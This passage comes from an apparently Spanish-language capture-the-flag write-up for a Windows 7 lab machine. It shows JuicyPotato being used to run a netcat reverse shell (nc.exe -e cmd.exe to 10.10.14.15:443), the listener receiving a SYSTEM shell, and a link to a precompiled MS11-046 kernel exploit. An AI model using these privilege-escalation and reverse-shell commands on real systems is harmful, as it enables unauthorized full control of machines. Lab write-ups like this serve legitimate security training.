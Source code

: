 ```bash
JP.exe
JP.exe
JuicyPotato v0.1 

Mandatory args: 
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args: 
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user

C:\Windows\Temp\Privesc>
JP.exe -l 4444 -p c:\windows\system32\cmd.exe -t * -c {6d18ad12-bde3-4393-b311-099c346e6df9} -a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd.exe 10.10.14.15 443"
Testing {6d18ad12-bde3-4393-b311-099c346e6df9} 4444
......
[+] authresult 0
{6d18ad12-bde3-4393-b311-099c346e6df9};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Windows\Temp\Privesc>
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.5] 49183
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
nt authority\system

C:\Windows\system32>
```

Ya somos adminstradores del sistema, ahora podemos visualizar las flags (user.txt y root.txt).

Otra forma de escalar privilegios es que vemos que la máquina presenta el sistema operativo *Microsoft Windows 7 Enterprise 6.1.7600 N/A Build 7600*, dicha versión de tecnología presenta una vulnerabilidad descrita en el CVE *CVE-2011-1249* relacionado al *MS11-046*; por lo que podemos buscar un exploit compilado que nos facilite la escalada de privilegios:

[Github](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS11-046/ms11-046.exe)
